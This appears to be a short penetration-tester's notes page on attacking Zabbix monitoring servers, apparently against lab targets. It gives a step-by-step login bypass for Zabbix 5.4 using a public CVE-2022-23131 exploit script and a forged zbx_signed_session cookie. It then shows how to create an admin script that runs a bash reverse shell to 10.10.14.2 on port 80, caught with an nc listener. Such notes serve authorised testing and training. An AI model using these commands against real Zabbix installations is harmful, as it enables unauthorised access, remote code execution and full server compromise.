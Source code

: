 # Zabbix

<details>

<summary>V5.4 Bypass Login</summary>

### Checking if Zabbix is v5.4:

* Hover around "Help" button --> will refer to the respective zabbix version documentation

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Use [https://github.com/Mr-xn/cve-2022-23131](https://github.com/Mr-xn/cve-2022-23131)

```
python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin
```

* If error "Failed to resolve \<host>" --> have to add entry to `/etc/hosts`

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Uncomment lines 60 and 62 to show the session cookies

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Rerun the command `python3 zabbix_session_exp.py -t https://192.168.210.13 -u admin`

* Copy the zbx\_signed\_session cookie and add it to the cookies for the webpage

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Press the SSO login option --> successful login

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



</details>

<details>

<summary>Reverse Shell From Zabbix</summary>

Go to "Administration" --> "Scripts" --> "Create Script"

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

* Name: revshell
* Scope: Manual host action
* Type: Script
* Execute on: Zabbix server (proxy)
* Commands: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/80 0>&1'`
* Add

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Monitoring --> Hosts --> Zabbix server --> revshell

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

nc -lvp 80

<figure><img src=".gitbook/assets/image (343).png" alt=""><figcaption></figcaption></figure>

</details>
